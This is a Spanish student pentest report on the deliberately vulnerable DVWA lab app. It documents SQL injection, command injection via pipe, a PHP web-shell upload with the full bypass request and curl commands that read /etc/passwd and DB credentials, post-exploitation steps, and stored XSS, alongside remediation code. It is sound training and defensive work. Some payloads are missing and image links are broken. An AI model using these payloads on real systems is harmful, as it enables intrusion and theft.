# Informe Técnico de Pentesting
## DVWA - Security Level: Medium

---

## 1. Portada

**Proyecto**: Auditoría de Seguridad - DVWA Medium  
**Equipo**: [AgroSenso Lite]  
**Integrantes**: [Andrew Montero] y [Deivis Jimenez]  
**Fecha**: [9/12/25]  
**Versión**: 1.5

---

## 2. Resumen Ejecutivo Técnico

Se realizó una auditoría de seguridad sobre la aplicación DVWA configurada en nivel Medium. Durante el proceso inicial se identificó **1 vulnerabilidad crítica** de tipo SQL Injection (Blind).

### Hallazgos Principales
- **1 vulnerabilidad crítica**: SQL Injection (Blind)
- **Severidad estimada**: Critical
- **Estado**: En proceso de explotación

---

## 3. Alcance y Reglas de Engagement

### 3.1 Objetivos del Pentesting

**Objetivos Generales:**
- Identificar vulnerabilidades de seguridad en DVWA nivel Medium
- Demostrar el impacto de las vulnerabilidades encontradas
- Proporcionar recomendaciones de remediación

**Objetivos Específicos:**
- Evaluar módulos de la aplicación
- Verificar las validaciones de entrada
- Comprobar la posibilidad de explotación de vulnerabilidades

### 3.2 Alcance Técnico

**Aplicación Objetivo:**
- URL: `http://localhost/`
- Aplicación: Damn Vulnerable Web Application (DVWA)
- Nivel de Seguridad: Medium

**Módulos en Alcance:**
- SQL Injection (Blind)
- Command Injection
- File Upload
- XSS (Reflected)
- XSS (Stored)

**Credenciales Utilizadas:**
- Usuario: admin
- Password: password

### 3.3 Reglas de Engagement

**Tipo de Pentesting:** Black-box

**Técnicas Permitidas:**
- Manipulación de parámetros HTTP
- Inyección de código
- Bypass de validaciones
- Uso de herramientas de pentesting

**Técnicas Prohibidas:**
- Ataques de Denegación de Servicio (DoS)
- Destrucción de datos
- Acceso a sistemas fuera del alcance

**Ventana de Tiempo:**
- Inicio: [Fecha Inicio]
- Fin: [Fecha Fin]

---

## 4. Metodología Aplicada

### 4.1 Frameworks de Referencia

**PTES (Penetration Testing Execution Standard):**
Framework profesional de 7 fases para pentesting estructurado.

**OWASP Web Security Testing Guide v4:**
Guía técnica específica para pruebas de seguridad en aplicaciones web.

### 4.2 Fases del Pentesting Ejecutadas

1. **Pre-engagement**: Definición de alcance y reglas
2. **Intelligence Gathering**: Reconocimiento de la aplicación
3. **Threat Modeling**: Identificación de amenazas potenciales
4. **Vulnerability Analysis**: Análisis de vulnerabilidades
5. **Exploitation**: Explotación de vulnerabilidades (en proceso)
6. **Post-Exploitation**: Análisis de impacto (pendiente)
7. **Reporting**: Documentación de hallazgos

### 4.3 Herramientas Utilizadas

| Herramienta | Versión | Propósito | Fase PTES |
|-------------|---------|-----------|-----------|
| Firefox DevTools | Built-in | Inspección HTML, bypass validaciones | 2, 4 |
| Navegador Web | Latest | Testing manual | 2, 4 |

---

## 5. Reconocimiento e Inteligencia

### 5.1 Mapeo de la Aplicación

**Módulos Identificados:**
- Brute Force
- Command Injection
- CSRF
- File Inclusion
- File Upload
- SQL Injection
- SQL Injection (Blind)
- XSS (DOM, Reflected, Stored)

### 5.2 Puntos de Entrada Identificados

| ID | Tipo | Ubicación | Método HTTP | Parámetros | Autenticación |
|----|------|-----------|-------------|------------|---------------|
| EP-01 | Formulario | /sqli_blind/ | GET | id, Submit | Sí |

---

## 6. Análisis Detallado de Vulnerabilidades

### VULNERABILIDAD V-01: SQL Injection (Blind)

**Clasificación:**
- **Categoría OWASP Top 10**: A03:2021 – Injection
- **CWE**: CWE-89 (SQL Injection)
- **Severidad Estimada**: Critical

**Ubicación:**
- **Módulo**: SQL Injection (Blind)
- **URL**: `http://localhost/vulnerabilities/sqli_blind/`
- **Parámetro Vulnerable**: `id` (GET)
- **Método HTTP**: GET

**Descripción Técnica:**

La aplicación no valida adecuadamente el parámetro `id` en el servidor. Aunque implementa un dropdown en el cliente limitando valores de 1 a 5, esta restricción puede bypassearse fácilmente modificando el HTML o interceptando la petición. La aplicación proporciona respuestas diferentes basadas en TRUE/FALSE, indicando vulnerabilidad a Blind SQL Injection.

**Impacto Técnico:**

- Acceso no autorizado a la base de datos
- Extracción de información sensible mediante técnicas Blind SQLi
- Posible escalación de privilegios
- Compromiso de confidencialidad

**Prueba de Concepto (PoC):**

**Paso 1: Reconocimiento - ID Válido**
- Input: `1`
- Respuesta: "User ID exists in the database"


**Paso 2: Bypass de Restricción Cliente**
- Técnica: Edición HTML con DevTools (F12)
- Modificación: Cambiar `<option value="5">` a `<option value="999">`
- Input: `999`
- Respuesta: "User ID is MISSING from the database"


**Datos Comprometidos:**

Pendiente de extracción completa mediante técnicas de Blind SQL Injection.

**Reproducibilidad:**
- **Estado**: Siempre reproducible
- **Requisitos**: Sesión autenticada

**Recomendaciones de Remediación:**

**Solución Inmediata:**
- Implementar validación estricta en el servidor
- Permitir solo valores numéricos enteros dentro del rango permitido

**Solución Permanente:**
1. Usar **Prepared Statements** (consultas parametrizadas)
2. Implementar validación de entrada robusta en servidor
3. Aplicar principio de privilegio mínimo en la base de datos
4. Nunca confiar en validaciones del lado del cliente

---

## 7. Matriz de Vulnerabilidades

### 7.1 Resumen Consolidado

| ID | Nombre | Categoría OWASP | CWE | Severidad | Estado |
|----|--------|-----------------|-----|-----------|--------|
| V-01 | SQL Injection (Blind) | A03 | CWE-89 | Critical | Identificada |

### 7.2 Estadísticas de Vulnerabilidades

**Distribución por Severidad:**
- Críticas: 1 (100%)
- Altas: 0 (0%)
- Medias: 0 (0%)
- Bajas: 0 (0%)

**Total identificado hasta ahora**: 1

---

---

### VULNERABILIDAD V-02: OS Command Injection

**Clasificación:**
- **Categoría OWASP Top 10**: A03:2021 – Injection
- **Referencia OWASP Testing Guide**: WSTG-INPV-12
- **CWE**: CWE-78 (OS Command Injection)
- **Severidad Estimada**: Critical

**Ubicación:**
- **Módulo**: Command Injection
- **URL**: `http://localhost/vulnerabilities/exec/`
- **Parámetro Vulnerable**: `ip` (POST)
- **Método HTTP**: POST

**Descripción Técnica:**

La aplicación ejecuta el comando `ping` del sistema operativo concatenando directamente la entrada del usuario sin sanitización adecuada. Aunque en nivel Medium implementa una blacklist que bloquea operadores como `;` y `&&`, el operador pipe `|` no está filtrado, permitiendo la ejecución de comandos arbitrarios del sistema.

**Impacto Técnico:**

- Ejecución remota de comandos (RCE)
- Acceso al sistema de archivos del servidor
- Lectura de archivos sensibles (credenciales, configuraciones)
- Posible escalación de privilegios
- Compromiso total del servidor

**Prueba de Concepto (PoC):**

**Paso 1: Comportamiento Normal**
- Input: `127.0.0.1`
- Resultado: Ejecuta ping correctamente





**Paso 2: Intentos Bloqueados (Blacklist)**
- Payload: `127.0.0.1; ls` →  Bloqueado
- Payload: `127.0.0.1 && whoami` →  Bloqueado



**Paso 3: Bypass con Operador Pipe**
- Payload: `127.0.0.1 | ls`
- Resultado:  Exitoso - Lista archivos del directorio



**Paso 4: Identificación de Usuario**
- Payload: `127.0.0.1 | whoami`
- Resultado: `www-data`


**Paso 5: Información del Sistema**
- Payload: `127.0.0.1 | uname -a`
- Resultado: Información completa del kernel Linux



**Paso 6: Lectura de Archivos Sensibles**
- Payload: `127.0.0.1 | cat /etc/passwd`
- Resultado: Contenido completo del archivo passwd



**Paso 7: Identificación de Directorio**
- Payload: `127.0.0.1 | pwd`
- Resultado: Ruta del directorio actual



**Payload Utilizado:**
```http
POST /vulnerabilities/exec/ HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=xxxxx; security=medium

ip=127.0.0.1+|+whoami&Submit=Submit
```

**Datos Comprometidos:**

- Usuario del sistema: `www-data`
- Contenido de `/etc/passwd`
- Estructura de directorios
- Información del sistema operativo

**Reproducibilidad:**
- **Estado**: Siempre reproducible
- **Requisitos**: Sesión autenticada

**Recomendaciones de Remediación:**

**Solución Inmediata:**
- Implementar whitelist de caracteres permitidos (solo 0-9 y punto)
- Validar formato de dirección IP
- Usar funciones específicas del lenguaje para validar IPs

**Solución Permanente:**
1. Usar funciones nativas del lenguaje en lugar de `exec()` o `shell_exec()`
2. Implementar whitelist estricta de entrada
3. Escapar todos los caracteres especiales del shell
4. Ejecutar comandos con privilegios mínimos
5. Usar bibliotecas específicas para ping (no comandos shell)

**Ejemplo de código seguro (PHP):**
```php
$ip = $_POST['ip'];

// Validar que sea una IP válida
if (!filter_var($ip, FILTER_VALIDATE_IP)) {
    die("Invalid IP address");
}

// Usar función específica en lugar de shell
// O escapar correctamente
$ip = escapeshellarg($ip);
$output = shell_exec("ping -c 4 " . $ip);
```

---

## 7. Matriz de Vulnerabilidades

| ID | Nombre | Categoría OWASP | CWE | Severidad | Estado |
|----|--------|-----------------|-----|-----------|--------|
| V-01 | SQL Injection (Blind) | A03 | CWE-89 | Critical | Identificada |
| V-02 | OS Command Injection | A03 | CWE-78 | Critical | Explotada |

---

### VULNERABILIDAD V-03: Unrestricted File Upload → Remote Code Execution (RCE)

**Clasificación:**
- **Categoría OWASP Top 10**: A03:2021 – Injection / A04:2021 – Insecure Design
- **Referencia OWASP Testing Guide**: WSTG-BUSL-08, WSTG-BUSL-09
- **CWE**: CWE-434 (Unrestricted Upload of File with Dangerous Type)
- **Severidad Calculada (CVSS v3.1)**: Critical
- **Score CVSS**: 9.8 (Critical)
  - Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
  - Attack Vector: Network (N)
  - Attack Complexity: Low (L)
  - Privileges Required: None (N) - aunque requiere sesión, cualquier usuario puede explotar
  - User Interaction: None (N)
  - Scope: Unchanged (U)
  - Confidentiality Impact: High (H)
  - Integrity Impact: High (H)
  - Availability Impact: High (H)

**Ubicación:**
- **Módulo/Funcionalidad**: File Upload
- **URL Afectada**: `http://192.168.56.1/vulnerabilities/upload/`
- **Parámetro Vulnerable**: `uploaded` (nombre del archivo en multipart/form-data)
- **Método HTTP**: POST
- **Directorio de almacenamiento**: `/hackable/uploads/` (accesible públicamente)

**Descripción Técnica:**

La aplicación implementa una funcionalidad de carga de archivos que supuestamente solo acepta imágenes (JPEG/PNG). En el nivel Medium, DVWA implementa dos capas de validación:

1. **Validación de extensión**: Verifica que el nombre del archivo termine en `.jpg`, `.jpeg` o `.png`
2. **Validación de tipo MIME**: Verifica el header `Content-Type` de la petición HTTP

Sin embargo, estas validaciones presentan una falla crítica: **no validan el contenido real del archivo** (magic bytes) ni **la extensión final con la que se guarda el archivo en el servidor**.

Al interceptar la petición HTTP con un proxy (Burp Suite) y modificar el `filename` en el header `Content-Disposition` después de pasar las validaciones iniciales, es posible subir archivos PHP ejecutables que el servidor Apache procesará como código.

**Cadena de explotación:**
1. Archivo creado con extensión `.jpg` pero contenido PHP
2. Validación inicial verifica extensión `.jpg` → PASA
3. Petición interceptada y modificada: `filename="shell.jpg"` → `filename="shell.php"`
4. `Content-Type: image/jpeg` se mantiene → validación MIME PASA
5. Servidor guarda archivo como `shell.php` en directorio público
6. Apache procesa el archivo como código PHP ejecutable
7. Atacante ejecuta comandos remotos mediante parámetro GET

**Impacto Técnico:**

- **Ejecución Remota de Código (RCE)**: Control completo del servidor web
- **Compromiso de confidencialidad**: Acceso a archivos sensibles del sistema
- **Obtención de credenciales**: Credenciales de base de datos expuestas
- **Escalación de privilegios**: Base para obtener privilegios superiores
- **Persistencia**: Capacidad de establecer backdoors permanentes
- **Movimiento lateral**: Punto de entrada para comprometer otros sistemas en la red
- **Exfiltración de datos**: Acceso completo a la base de datos y archivos
- **Compromiso de integridad**: Modificación de archivos del sistema

**Prueba de Concepto (PoC):**

**Paso 1: Reconocimiento del Módulo**
- Navegar a `http://192.168.56.1/vulnerabilities/upload/`
- Observar funcionalidad de carga de archivos
- Probar upload de imagen legítima: `test_image.jpg`
- **Resultado**: Imagen subida exitosamente a `/hackable/uploads/test_image.jpg`




**Paso 2: Crear Web Shell PHP**

Archivo: `shell.php`
```php
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

**Paso 3: Intentos de Upload Directo (Documentar Controles)**

Intento 1: Upload directo de `shell.php`
- **Resultado**:  Rechazado
- **Mensaje**: "Your image was not uploaded. We can only accept JPEG or PNG images"

Intento 2: Extensión doble `shell.php.jpg`
- **Resultado**: Rechazado
- **Análisis**: Validación verifica la extensión final




**Paso 4: Bypass con Manipulación HTTP (Burp Suite)**

1. Renombrar el web shell a `shell.jpg` (mantener contenido PHP)
2. Configurar Burp Suite como proxy (127.0.0.1:8080)
3. Activar intercept: "Intercept is on"
4. Intentar subir `shell.jpg` desde el navegador
5. Interceptar la petición en Burp Suite

**Paso 5: Modificar la Petición HTTP**

Petición original interceptada:
```http
POST /vulnerabilities/upload/ HTTP/1.1
Host: 192.168.56.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Cookie: PHPSESSID=xxxxx; security=medium

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="uploaded"; filename="shell.jpg"
Content-Type: image/jpeg

<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

Modificación realizada:
```http
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg
```

**CRÍTICO**: 
- Cambiar: `filename="shell.jpg"` → `filename="shell.php"`
- MANTENER: `Content-Type: image/jpeg` (para bypass de validación MIME)

6. Click en "Forward"
7. Desactivar intercept



**Paso 6: Verificar Upload Exitoso**

**Resultado**:  "../../hackable/uploads/shell.php succesfully uploaded!"



**Paso 7: Ejecutar Comandos Remotos**

URL del web shell: `http://192.168.56.1/hackable/uploads/shell.php?cmd=COMANDO`

Comando 1: Identificar usuario
```
http://192.168.56.1/hackable/uploads/shell.php?cmd=whoami
```
**Resultado**: `www-data`



Comando 2: Listar directorio
```
http://192.168.56.1/hackable/uploads/shell.php?cmd=ls -la
```
**Resultado**: Listado completo de archivos en `/hackable/uploads/`



Comando 3: Directorio actual
```
http://192.168.56.1/hackable/uploads/shell.php?cmd=pwd
```
**Resultado**: `/var/www/html/hackable/uploads`



Comando 4: Leer archivo sensible
```
http://192.168.56.1/hackable/uploads/shell.php?cmd=cat /etc/passwd
```
**Resultado**: Contenido completo del archivo passwd del sistema



Comando 5: Obtener credenciales de base de datos
```
http://192.168.56.1/hackable/uploads/shell.php?cmd=cat /var/www/html/config/config.inc.php
```
**Resultado**: Credenciales de MySQL expuestas
- DB User: root
- DB Password: [visible en el archivo]
- DB Name: dvwa


**Payload Utilizado:**

**Petición HTTP Completa (modificada en Burp Suite):**
```http
POST /vulnerabilities/upload/ HTTP/1.1
Host: 192.168.56.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 396
Origin: http://192.168.56.1
Connection: close
Referer: http://192.168.56.1/vulnerabilities/upload/
Cookie: PHPSESSID=abc123def456; security=medium
Upgrade-Insecure-Requests: 1

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg

<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

**Respuesta del Servidor:**
```http
HTTP/1.1 200 OK
Date: Tue, 03 Dec 2024 18:30:00 GMT
Server: Apache/2.4.25 (Debian)
Content-Type: text/html; charset=utf-8

<pre>../../hackable/uploads/shell.php succesfully uploaded!</pre>
```

**Comandos de Explotación:**
```bash
# Identificar usuario
curl "http://192.168.56.1/hackable/uploads/shell.php?cmd=whoami"

# Listar archivos
curl "http://192.168.56.1/hackable/uploads/shell.php?cmd=ls+-la"

# Leer archivo sensible
curl "http://192.168.56.1/hackable/uploads/shell.php?cmd=cat+/etc/passwd"

# Obtener configuración de DB
curl "http://192.168.56.1/hackable/uploads/shell.php?cmd=cat+/var/www/html/config/config.inc.php"

# Información del sistema
curl "http://192.168.56.1/hackable/uploads/shell.php?cmd=uname+-a"
```

**Datos Comprometidos / Acceso Obtenido:**

1. **Ejecución de comandos del sistema**: Confirmada como usuario `www-data`
2. **Credenciales de base de datos MySQL**:
   - Usuario: root
   - Password: [obtenida del archivo config]
   - Base de datos: dvwa
3. **Usuarios del sistema**: Lista completa del archivo `/etc/passwd`
4. **Información del sistema**: Kernel version, arquitectura, hostname
5. **Estructura de directorios**: Mapa completo de `/var/www/html`
6. **Archivos de configuración**: Acceso a config.inc.php con información sensible

**Reproducibilidad:**
- **Estado**: Siempre reproducible
- **Requisitos**: 
  - Sesión autenticada en DVWA
  - Herramienta de proxy HTTP (Burp Suite, OWASP ZAP, o similar)
  - Conocimiento básico de manipulación de peticiones HTTP
- **Tiempo de explotación**: < 5 minutos
- **Complejidad**: Baja - No requiere conocimientos técnicos avanzados

**Análisis de Post-Explotación:**

Una vez obtenido el RCE, un atacante podría:

1. **Escalación de privilegios**:
   - Buscar binarios SUID: `find / -perm -4000 2>/dev/null`
   - Explotar kernel vulnerabilities
   - Abusar de configuraciones incorrectas de sudo

2. **Persistencia**:
   - Crear múltiples backdoors en diferentes ubicaciones
   - Modificar archivos PHP existentes
   - Agregar usuarios al sistema
   - Crear cron jobs maliciosos

3. **Movimiento lateral**:
   - Usar credenciales de DB para comprometer MySQL
   - Escanear red interna desde el servidor comprometido
   - Pivotar hacia otros sistemas

4. **Exfiltración de datos**:
   - Dumping completo de la base de datos: `mysqldump -u root -p[password] dvwa > dump.sql`
   - Compresión y exfiltración vía HTTP POST
   - Acceso a todos los datos de usuarios

5. **Negación de servicio**:
   - Eliminación de archivos críticos
   - Consumo de recursos
   - Corrupción de base de datos

**Recomendaciones de Remediación:**

**Solución Inmediata (Workaround):**

1. **Deshabilitar temporalmente** el módulo de File Upload hasta implementar correcciones
2. **Eliminar** todos los archivos sospechosos del directorio `/hackable/uploads/`:
   ```bash
   find /var/www/html/hackable/uploads/ -name "*.php" -delete
   ```
3. **Configurar .htaccess** para prevenir ejecución de PHP en el directorio de uploads:
   ```apache
   <Directory /var/www/html/hackable/uploads/>
       php_flag engine off
       AddType text/plain .php .php3 .php4 .php5 .phtml
   </Directory>
   ```
4. **Revisar logs** en busca de explotación previa:
   ```bash
   grep "shell.php" /var/log/apache2/access.log
   ```

**Solución Permanente:**

1. **Validación de contenido real del archivo (Magic Bytes)**:
   ```php
   function validateImageContent($file) {
       $finfo = finfo_open(FILEINFO_MIME_TYPE);
       $mimeType = finfo_file($finfo, $file['tmp_name']);
       finfo_close($finfo);
       
       $allowedTypes = ['image/jpeg', 'image/png', 'image/gif'];
       
       if (!in_array($mimeType, $allowedTypes)) {
           return false;
       }
       
       // Verificar magic bytes
       $handle = fopen($file['tmp_name'], 'rb');
       $header = fread($handle, 4);
       fclose($handle);
       
       // JPEG: FF D8 FF
       // PNG: 89 50 4E 47
       $validHeaders = [
           "\xFF\xD8\xFF",  // JPEG
           "\x89\x50\x4E\x47"  // PNG
       ];
       
       foreach ($validHeaders as $validHeader) {
           if (strpos($header, $validHeader) === 0) {
               return true;
           }
       }
       
       return false;
   }
   ```

2. **Renombrar archivos de forma segura**:
   ```php
   // Generar nombre aleatorio y seguro
   $extension = '.jpg'; // Forzar extensión segura
   $newFilename = bin2hex(random_bytes(16)) . $extension;
   $uploadPath = '/var/www/uploads/' . $newFilename;
   
   // NO usar el nombre original del archivo
   move_uploaded_file($file['tmp_name'], $uploadPath);
   ```

3. **Separar directorio de uploads del webroot**:
   ```php
   // Guardar FUERA del webroot
   $uploadPath = '/var/uploads/' . $newFilename; // No accesible vía web
   
   // Servir archivos a través de script PHP que valida permisos
   // download.php?file=xxx
   ```

4. **Configuración de servidor web**:
   ```apache
   # En Apache .htaccess o configuración principal
   <Directory /var/www/html/uploads/>
       # Prevenir ejecución de scripts
       Options -ExecCGI
       AddHandler cgi-script .php .pl .py .jsp .asp .sh .cgi
       Options -Indexes
       
       # Forzar descarga en lugar de ejecución
       <FilesMatch "\.(php|php3|php4|php5|phtml|pl|py|jsp|asp|sh|cgi)$">
           Deny from all
       </FilesMatch>
   </Directory>
   ```

5. **Validación del lado del servidor (nunca confiar en el cliente)**:
   ```php
   // NUNCA usar el filename del cliente directamente
   // NUNCA confiar en Content-Type del header HTTP
   // SIEMPRE validar contenido real del archivo
   ```

6. **Implementar whitelist estricta**:
   ```php
   $allowedExtensions = ['jpg', 'jpeg', 'png'];
   $allowedMimeTypes = ['image/jpeg', 'image/png'];
   
   // Validar extensión (después de limpiar)
   $ext = strtolower(pathinfo($originalName, PATHINFO_EXTENSION));
   if (!in_array($ext, $allowedExtensions)) {
       die("Invalid file type");
   }
   
   // Validar MIME real (no del header)
   if (!in_array($realMimeType, $allowedMimeTypes)) {
       die("Invalid file content");
   }
   ```

7. **Límites adicionales**:
   - Tamaño máximo de archivo (ej: 2MB)
   - Rate limiting por usuario
   - Escaneo antivirus de archivos subidos
   - Logging exhaustivo de uploads

8. **Procesamiento de imágenes**:
   ```php
   // Re-procesar imagen para eliminar metadatos y código inyectado
   $image = imagecreatefromjpeg($uploadedFile);
   imagejpeg($image, $finalPath, 90);
   imagedestroy($image);
   ```

**Código Seguro Completo (Ejemplo PHP):**
```php
<?php
function secureFileUpload($file) {
    // Validar que se subió correctamente
    if (!isset($file['error']) || is_array($file['error'])) {
        throw new RuntimeException('Invalid parameters.');
    }
    
    // Verificar errores de PHP
    switch ($file['error']) {
        case UPLOAD_ERR_OK:
            break;
        case UPLOAD_ERR_INI_SIZE:
        case UPLOAD_ERR_FORM_SIZE:
            throw new RuntimeException('File exceeds size limit.');
        default:
            throw new RuntimeException('Unknown upload error.');
    }
    
    // Validar tamaño (2MB máximo)
    if ($file['size'] > 2000000) {
        throw new RuntimeException('File exceeds 2MB size limit.');
    }
    
    // Validar tipo MIME real (no del header)
    $finfo = new finfo(FILEINFO_MIME_TYPE);
    $mimeType = $finfo->file($file['tmp_name']);
    
    $allowedTypes = [
        'image/jpeg' => 'jpg',
        'image/png' => 'png'
    ];
    
    if (!array_key_exists($mimeType, $allowedTypes)) {
        throw new RuntimeException('Invalid file format.');
    }
    
    // Validar magic bytes
    $handle = fopen($file['tmp_name'], 'rb');
    $header = fread($handle, 8);
    fclose($handle);
    
    $isValid = false;
    if (strpos($header, "\xFF\xD8\xFF") === 0) { // JPEG
        $isValid = true;
    } elseif (strpos($header, "\x89\x50\x4E\x47") === 0) { // PNG
        $isValid = true;
    }
    
    if (!$isValid) {
        throw new RuntimeException('File content does not match expected format.');
    }
    
    // Generar nombre seguro
    $extension = $allowedTypes[$mimeType];
    $newFilename = bin2hex(random_bytes(16)) . '.' . $extension;
    
    // Directorio FUERA del webroot
    $uploadDir = '/var/secure_uploads/';
    $uploadPath = $uploadDir . $newFilename;
    
    // Mover archivo
    if (!move_uploaded_file($file['tmp_name'], $uploadPath)) {
        throw new RuntimeException('Failed to move uploaded file.');
    }
    
    // Re-procesar imagen para limpiarla
    if ($mimeType === 'image/jpeg') {
        $image = imagecreatefromjpeg($uploadPath);
        imagejpeg($image, $uploadPath, 90);
        imagedestroy($image);
    } elseif ($mimeType === 'image/png') {
        $image = imagecreatefrompng($uploadPath);
        imagepng($image, $uploadPath, 9);
        imagedestroy($image);
    }
    
    // Establecer permisos restrictivos
    chmod($uploadPath, 0644);
    
    // Log del upload
    error_log("File uploaded: $newFilename by user " . $_SESSION['user']);
    
    return $newFilename;
}

// Uso
try {
    if (isset($_FILES['uploaded'])) {
        $filename = secureFileUpload($_FILES['uploaded']);
        echo "File uploaded successfully: $filename";
    }
} catch (RuntimeException $e) {
    echo "Error: " . $e->getMessage();
}
?>
```

**Referencias:**
- OWASP File Upload Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
- CWE-434: https://cwe.mitre.org/data/definitions/434.html
- OWASP Testing Guide - File Upload: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files

---

## 7. Matriz de Vulnerabilidades

| ID | Nombre | Categoría OWASP | CWE | CVSS | Severidad | Estado |
|----|--------|-----------------|-----|------|-----------|--------|
| V-01 | SQL Injection (Blind) | A03 | CWE-89 | 9.8 | Critical | Identificada |
| V-02 | OS Command Injection | A03 | CWE-78 | 9.8 | Critical | Explotada |
| V-03 | Unrestricted File Upload → RCE | A03/A04 | CWE-434 | 9.8 | Critical | Explotada |

---


### VULNERABILIDAD V-04: Stored Cross-Site Scripting (XSS)

**Clasificación:**
- **Categoría OWASP Top 10**: A03:2021 – Injection
- **Referencia OWASP Testing Guide**: WSTG-INPV-01, WSTG-INPV-02
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Severidad Calculada (CVSS v3.1)**: Critical
- **Score CVSS**: 9.0 (Critical)
  - Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H
  - Attack Vector: Network (N)
  - Attack Complexity: Low (L)
  - Privileges Required: Low (L) - requiere autenticación
  - User Interaction: Required (R) - víctima debe visitar la página
  - Scope: Changed (C) - afecta a otros usuarios
  - Confidentiality Impact: High (H)
  - Integrity Impact: High (H)
  - Availability Impact: High (H)

**Ubicación:**
- **Módulo/Funcionalidad**: XSS (Stored) - Guestbook
- **URL Afectada**: `http://192.168.56.1/vulnerabilities/xss_s/`
- **Parámetro Vulnerable**: `txtName` (campo Name del formulario)
- **Método HTTP**: POST
- **Base de datos**: Los payloads se almacenan en tabla de MySQL

**Descripción Técnica:**

La aplicación implementa una funcionalidad de "guestbook" (libro de visitas) donde los usuarios pueden dejar mensajes que se almacenan permanentemente en la base de datos y se muestran a todos los visitantes posteriores.

**Falla de seguridad crítica identificada:**

La aplicación **NO sanitiza ni escapa** la entrada del usuario antes de almacenarla en la base de datos ni antes de mostrarla en el HTML. Específicamente:

1. **Validación insuficiente del lado del cliente**:
   - Campo `txtName` tiene atributo `maxlength="10"` en HTML
   - Esta restricción puede bypassearse trivialmente con DevTools (F12)
   - No hay validación equivalente en el servidor

2. **Filtrado inadecuado en nivel Medium**:
   ```php
   // DVWA Medium solo hace esto:
   $name = str_replace('<script>', '', $name);
   ```
   
   **Debilidades del filtro:**
   - Solo filtra el string literal `<script>` en minúsculas
   - Lo hace una sola vez (no recursivo)
   - NO filtra otros tags HTML peligrosos (``, `<svg>`, `<body>`, `<iframe>`, etc.)
   - NO filtra event handlers (`onerror`, `onload`, `onclick`, etc.)
   - NO filtra JavaScript en atributos HTML

3. **Sin escapado de output**:
   ```php
   // El código muestra directamente:
   echo $name;
   // Debería ser:
   echo htmlspecialchars($name, ENT_QUOTES, 'UTF-8');
   ```

4. **Sin protecciones adicionales**:
   - NO implementa Content Security Policy (CSP)
   - Cookies NO tienen flag `HttpOnly`
   - Cookies NO tienen flag `Secure`
   - NO hay Web Application Firewall (WAF)

**Resultado:** Un atacante puede inyectar código JavaScript arbitrario que:
- Se almacena permanentemente en la base de datos
- Se ejecuta en el navegador de CADA usuario que visite la página
- Persiste indefinidamente (hasta ser eliminado manualmente de la DB)
- Afecta a múltiples víctimas (Stored/Persistent XSS)

**Impacto Técnico:**

- **Ejecución de JavaScript arbitrario**: Control completo del contexto del navegador
- **Robo de cookies de sesión**: Acceso a `document.cookie` permite session hijacking
- **Robo de credenciales**: Modificación de formularios para capturar passwords
- **Keylogging**: Captura de TODO lo que el usuario escribe
- **Defacement**: Modificación completa de la apariencia del sitio
- **Redirección maliciosa**: Envío de usuarios a sitios de phishing
- **Instalación de malware**: Descarga drive-by de archivos maliciosos
- **Propagación de ataques**: Uso del sitio comprometido para atacar otros sistemas
- **BeEF hooking**: Control remoto completo del navegador de las víctimas
- **Compromiso de cuentas de administrador**: Si un admin visita la página, su sesión es robada

**Prueba de Concepto (PoC):**

**Paso 1: Reconocimiento del Módulo**

Navegar a: `http://192.168.56.1/vulnerabilities/xss_s/`

Observar:
- Formulario con dos campos: Name y Message
- Botón "Sign Guestbook"
- Lista de mensajes anteriores debajo
- Los mensajes son visibles para todos los usuarios

/01_modulo_inicial.png) 
**Paso 2: Prueba con Mensaje Legítimo**

Input:
- **Name:** `Juan`
- **Message:** `Hola, este es un mensaje de prueba`

Resultado: Mensaje publicado correctamente

/02_mensaje_normal.png)

**Paso 3: Intento de XSS Básico**

Input:
- **Name:** `Test`
- **Message:** `<script>alert('XSS')</script>`

Resultado:  Payload NO se ejecuta
Análisis: El campo Message tiene filtros contra `<script>`

/03_intento_script_basico.png)

**Paso 4: Identificación de Restricción Client-Side**

Inspeccionar el campo Name con DevTools (F12):
```html
<input name="txtName" type="text" size="30" maxlength="10">
```

Observación: `maxlength="10"` limita la entrada a 10 caracteres
Problema: Un payload XSS típico requiere más de 10 caracteres

/04_intento_name_limitado.png)

**Paso 5: Bypass de Restricción Client-Side**

Técnica: Modificar HTML con DevTools del navegador

1. Presionar F12
2. Seleccionar Inspector
3. Click en el campo Name
4. Localizar `maxlength="10"` en el código HTML
5. Doble click en "10"
6. Cambiar a: `maxlength="100"`
7. Presionar Enter

Resultado:  Ahora podemos ingresar payloads más largos

/05_devtools_maxlength.png)

**Paso 6: Explotación Exitosa con Event Handler**

Payload utilizado:
```html

```

**Análisis del payload:**
- ``: Tag HTML NO filtrado por DVWA
- `src=x`: Fuente inválida (imagen inexistente)
- `onerror=`: Event handler ejecutado cuando la imagen falla
- `alert('XSS')`: JavaScript a ejecutar

